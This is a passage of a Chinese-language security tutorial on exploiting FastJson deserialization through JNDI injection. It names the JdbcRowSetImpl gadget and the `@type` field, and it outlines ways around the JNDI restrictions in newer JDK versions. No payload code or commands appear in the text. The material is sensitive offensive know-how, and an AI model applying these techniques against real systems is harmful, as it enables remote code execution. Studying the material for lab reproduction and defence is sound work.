


**注意一些配置修改**：
确保项目依赖正确（引入FastJson低版本，如1.2.24，高版本已修复该漏洞），并配置好Web服务器（如Tomcat）。






**总结**：
FastJson漏洞结合JNDI注入的核心是利用`@type`字段指定具有`lookup()`调用的类（如`JdbcRowSetImpl`），并注入恶意JNDI地址，最终触发远程代码执行。




## JNDI注入-JDK高版本注入绕过
JDK版本的更新逐步限制了JNDI注入的利用，主要通过以下安全配置：

1. **JDK 6u45、7u21之后**：  
   `java.rmi.server.useCodebaseOnly`默认值设为`true`，禁用自动加载远程类文件，仅从本地`CLASSPATH`或指定`codebase`加载类，限制了RMI的远程类加载。

2. **JDK 6u141、7u131、8u121之后**：  
   新增`com.sun.jndi.rmi.object.trustURLCodebase`选项，默认`false`，禁止RMI和CORBA协议使用远程`codebase`，导致RMI/CORBA途径的JNDI注入失效，但LDAP仍可能利用。

3. **JDK 6u211、7u201、8u191之后**：  
   新增`com.sun.jndi.ldap.object.trustURLCodebase`选项，默认`false`，禁止LDAP协议使用远程`codebase`，LDAP途径的注入也被限制。


**高版本绕过思路**：
- 利用目标系统本地已有的恶意类（无需远程加载），通过JNDI服务返回本地类的引用，触发其危险方法。
- 利用特殊调用链（如结合`Tomcat`、`Log4j`等组件的本地类），绕开远程类加载限制。
- 参考资料：  
  https://www.mi1k7ea.com/2020/09/07/浅析高低版JDK下的JNDI注入及绕过/  
  https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html


## 涉及难点总结
1. **JDK版本兼容性**：不同JDK版本对RMI/LDAP的限制不同，需明确目标版本才能选择合适的利用方式（如低版本用RMI/LDAP，高版本需绕过）。
2. **服务差异**：RMI和LDAP在利用上的区别（如LDAP在部分高版本JDK中更易绕过），需根据目标环境选择服务类型。
3. **恶意类加载条件**：远程类加载需目标系统可访问恶意服务器，且JDK未限制`codebase`，否则需依赖本地类。
4. **漏洞结合点**：如FastJson需找到合适的反序列化类（如`JdbcRowSetImpl`），该类需包含`lookup()`调用且参数可控。
5. **环境配置**：搭建漏洞环境时需匹配JDK版本、组件版本（如FastJson低版本），否则可能无法复现。
